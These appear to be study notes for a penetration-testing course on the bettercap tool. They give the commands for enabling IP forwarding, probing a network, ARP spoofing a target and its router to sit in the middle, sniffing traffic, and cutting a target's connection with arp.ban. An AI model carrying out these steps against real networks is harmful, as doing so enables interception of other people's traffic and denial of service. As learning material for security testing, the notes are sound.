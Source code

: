 ##echo 1 > /proc/sys/net/ipv4/ip_forward
- enables port forwarding

##bettercap -iface <network-interface> (optional) -caplet <.cap>
- starts the bettercap command prompt
- type *help* to see the modules
- type *help <module-name>* to get information about the module
- auto completion works with tab
- when we want to give bettercap a headstart by executing some commands, type all of the commands in a *.cap* and give it as an argument
- for example, when sniffing data by ARP spoofing, open a .cap file and type these:
	1. net.probe on
	2. set arp.spoof.fullduplex true
	3. set arp.spoof.targets <target-IP>
	4. arp.spoof on
	5. set net.sniff.local true (only if we want to capture HTTPS)
	6. net.sniff on
- to run a caplet in the bettercap terminal, directly type its name
- wildcards in the terminal can be used in bettercap, especially *

###<module-name> on
- starts the specific module
- only after setting all the parameters of the module, run this to start the attack

###set <module.parameter> <value>
- sets the attribute of the module to the value
- for example, *set arp.spoof.fullduplex true*

###net.probe on
- shows the clients connected to same network
- it automatically starts the module *net.recon* because this module sends probe request to all IPs and if they respond they all are taken
to a list by net.recon

###net.show
- when net.probe is already on, the discovered clients are shown in a table giving basic information about them like *airodump-ng*
- *gateway* speicifes the router
- *<network-interface>* specifies this computer

###arp.spoof
- arp spoofing with bettercap
- *arp.ban on* : cuts the connection of the target
- make sure *net.probe* and *net.recon* is running before starting this module
- after turning on this module, in the target machine, the MAC address of both the router and our computer should be the same and be equal
to the MAC address of our computer (check with ifconfig)

####fullduplex
- both the target and the router are attacked and we become man in the middle
- default will only attack the target, so set the router also by using *arp.spoof.fullduplex true*

####targets
- default is entire subnet
- give the IP address of the target
